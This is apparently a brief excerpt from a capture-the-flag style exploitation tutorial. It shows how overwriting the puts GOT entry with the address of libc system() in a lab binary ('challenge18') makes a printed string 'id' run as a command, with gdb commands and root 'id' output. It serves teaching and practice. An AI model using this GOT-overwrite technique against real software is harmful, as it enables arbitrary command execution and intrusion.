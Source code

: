 
## Exploit

We want to have this:
```
GOT                   Points to
0x601020 (system)     0x00007ffff7a53380 (__libc_system)
0x601018 (puts)       0x00007ffff7a53380 (__libc_system)
```

The exploit is simple. Write `0x00007ffff7a53380` to memory address `0x601018`:
```
gdb-peda$ r 0x00007ffff7a53380 0x601018
Starting program: /root/challenges/challenge18/challenge18 0x00007ffff7a53380 0x601018
Start
uid=0(root) gid=0(root) groups=0(root)
[Inferior 2 (process 22261) exited normally]
Warning: not running or target is remote
```

Success! Instead of printing the string `"id"`, it got executed (output `"uid=0(root)..."`)


## Challenges
